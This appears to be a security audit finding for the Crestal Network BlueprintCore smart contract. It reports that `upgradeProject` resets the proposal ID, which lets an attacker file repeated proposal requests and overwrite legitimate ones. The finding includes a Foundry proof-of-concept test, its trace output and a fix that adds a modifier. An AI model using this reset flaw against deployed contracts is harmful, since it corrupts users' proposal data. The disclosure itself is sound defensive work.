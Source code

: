 Fancy Wooden Jaguar

High

# Unrestricted Project Reset Allows Infinite Proposal Spam.

**Description:** 

The `upgradeProject` function resets the [requestProposalID](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L200) to 0, allowing malicious attackers to repeatedly call the `createProjectIDAndProposalRequest` For the same project. This bypasses the `One active proposal per project` design, leading to spam and data corruption.

**Impact:** 

**Data Overwrite**: Legitimate proposals may be overwritten if the attacker resets the project state after submission.

**Proof of Concept:**

Place this in the `BlueprintV2.t.sol` file.

```solidity
function test_createProposalRequestcanbereentered2times() public {
        bytes32 projId = blueprint.createProjectID();
        bytes32 proposalId = blueprint.createProposalRequest(projId, "test base64 param", "test server url");
        vm.startPrank(attacker);
        blueprint.upgradeProject(projId);
        vm.stopPrank();
        bytes32 proposalId2 = blueprint.createProposalRequest(projId, "overwritten details", "overwritten details");

    }
    
```

These are the outputs of the logs meaning that th exploit has been successful:

```bash
[163785] BlueprintTest::test_createProposalRequestcanbereentered2times()
    ├─ [53215] BlueprintV2::createProjectID()
    │   ├─ emit CreateProjectID(projectID: 0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754, walletAddress: BlueprintTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496])
    │   ├─  storage changes:
    │   │   @ 0xed79f5a6103cc2504e2b88abca652130eac5b790c6ddb9e498c6f724905db5d9: 0 → 0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754
    │   │   @ 0xf50610183b43e74fd477f2c36e086063bf259b667b930e6505aa0b4b5460c4c5: 0 → 0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754
    │   └─ ← [Return] 0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754
    ├─ [70500] BlueprintV2::createProposalRequest(0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754, "test base64 param", "test server url")
    │   ├─ emit RequestProposal(projectID: 0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754, walletAddress: BlueprintTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], requestID: 0x0157d35e8e61f0cbd3bb498212b841e98a0098a28d355db1a4956069c50db123, base64RecParam: "test base64 param", serverURL: "test server url")
    │   ├─  storage changes:
    │   │   @ 0xf50610183b43e74fd477f2c36e086063bf259b667b930e6505aa0b4b5460c4c6: 0 → 0x0157d35e8e61f0cbd3bb498212b841e98a0098a28d355db1a4956069c50db123
    │   │   @ 0x9a37937c0ede8c307bf0496ec60e131422d44420befc187978dc5326d56d38a4: 0 → 0x0157d35e8e61f0cbd3bb498212b841e98a0098a28d355db1a4956069c50db123
    │   │   @ 2: 0 → 1
    │   └─ ← [Return] 0x0157d35e8e61f0cbd3bb498212b841e98a0098a28d355db1a4956069c50db123
    ├─ [0] VM::startPrank(ECRecover: [0x0000000000000000000000000000000000000001])
    │   └─ ← [Return] 
    ├─ [1026] BlueprintV2::upgradeProject(0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754)
    │   ├─  storage changes:
    │   │   @ 0xf50610183b43e74fd477f2c36e086063bf259b667b930e6505aa0b4b5460c4c6: 0x0157d35e8e61f0cbd3bb498212b841e98a0098a28d355db1a4956069c50db123 → 0
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [26600] BlueprintV2::createProposalRequest(0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754, "overwritten details", "overwritten details")
    │   ├─ emit RequestProposal(projectID: 0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754, walletAddress: BlueprintTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], requestID: 0x913b849d1bb21b9efbc75f3261d7ae2a619f7c46e7dcd1c5762dee795335d7b3, base64RecParam: "overwritten details", serverURL: "overwritten details")
    │   ├─  storage changes:
    │   │   @ 2: 1 → 2
    │   │   @ 0xf50610183b43e74fd477f2c36e086063bf259b667b930e6505aa0b4b5460c4c6: 0 → 0x913b849d1bb21b9efbc75f3261d7ae2a619f7c46e7dcd1c5762dee795335d7b3
    │   │   @ 0x9a37937c0ede8c307bf0496ec60e131422d44420befc187978dc5326d56d38a4: 0x0157d35e8e61f0cbd3bb498212b841e98a0098a28d355db1a4956069c50db123 → 0x913b849d1bb21b9efbc75f3261d7ae2a619f7c46e7dcd1c5762dee795335d7b3
    │   └─ ← [Return] 0x913b849d1bb21b9efbc75f3261d7ae2a619f7c46e7dcd1c5762dee795335d7b3
    ├─  storage changes:
    │   @ 0xf50610183b43e74fd477f2c36e086063bf259b667b930e6505aa0b4b5460c4c6: 0x0157d35e8e61f0cbd3bb498212b841e98a0098a28d355db1a4956069c50db123 → 0
    │   @ 0xed79f5a6103cc2504e2b88abca652130eac5b790c6ddb9e498c6f724905db5d9: 0 → 0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 69.19ms (22.34ms CPU time)
```

If the `attacker` keeps on doing this on each call a new `requestproposalId` will be made. And also the `totalProposalRequest` var will keep on getting incremented.

**Recommended Mitigation:** 

Would recommend once a proposal is submitted, lock the project from upgrades until completion.


```diff
+modifier isUpgradeable(bytes32 projectId) {
+    require(
+        projects[projectId].requestProposalID == 0, 
+        "Project has active proposal"
+   );
+    _;
+}


+ function upgradeProject(bytes32 projectId) public isUpgradeable(projectId) { ... }

```

In the above fix a modifier was made and fixed at the `upgradeProject` function.